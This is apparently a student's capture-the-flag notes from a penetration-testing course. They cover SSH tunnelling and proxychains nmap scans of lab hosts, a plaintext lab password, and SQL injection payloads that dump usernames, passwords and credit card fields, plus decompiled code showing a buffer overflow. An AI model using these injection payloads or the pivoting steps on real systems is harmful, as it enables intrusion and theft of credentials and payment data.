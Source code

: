# JB Password:
```
v0cEcUbwIzY878p
```
# MS setup: 
```
ssh -MS /tmp/jump student@10.50.37.98	     

ssh -S /tmp/jump jump -O forward -D 9050

ssh -MS /tmp/web student@10.50.37.98

ssh -S /tmp/web web -O forward -L 2224:10.100.28.40:4444

ssh -S /tmp/jump jump -O cancel -D9050

ssh -S /tmp/web web -O forward -D9050

proxychains nmap -Pn -n -T5 10.100.28.55

proxychains nmap --script http-enum 10.100.28.55
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


    Golden Rule:
    ```
    127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT table_schema,table_name,column_name from information_schema.columns
    ```
    ### step 4:  Craft more tailored queries
    q3 * Provide the password for users with administrator access to the DNLA database. To answer input the flag.
    ```
    127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members
    ```
    q4 * Utilizing the Search page on DNLA, identify the vulnerability to find the flag. To answer input only the characters inside the flag.
    ```
    ' OR 1='1
    ```
    q5 * Identify the version of the database that DNLA is utilizing.To answer input the full version.
    ```
    http://127.0.0.1:1111/cases/productsCategory.php?category=1 UNION SELECT table_schema,@@version,column_name from information_schema.columns
    ```


## q6 * Utilizing the input field on DNLA budget page, find the flag associated with credit cards. To answer the question enter only the characters inside the flag.
```

127.0.0.1:1111/cases/productsCategory.php?category=13 UNION SELECT username,password,permission from sqlinjection.members

'UNION SELECT id,creditcard_number,order from sqlinjection.payments' query

```


## q7 * Find the flag associated with id 1337.
```

```
## q8 * Using the /cases/register.php page on DNLA create a user with admin permissions, ensuring the firstname is set to Hacker. Once created log in to get the flag.
(meh !! I ain't pressed)

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

## ExploitationDevelopmentCTFD_OPNotes

After running string.exe in powershell.
Items of interest:
- stdin@@GLIBC_2.0
- ELF
- Press enter to view inventory:

```
  char local_4c [68];
  
  printf("Press enter to view inventory: ");
  fgets(local_4c,0x200,stdin);
# 0x200 = 512
    puts(
      "Total Inventory:\nBandages: 12\nKvass: 1.000\nTurnips: 12.000\n5.45x39: 20.000\nAK-74M: 200\n Zastava Koral: 50"
      );
  usleep(5000);
  return 0;
```

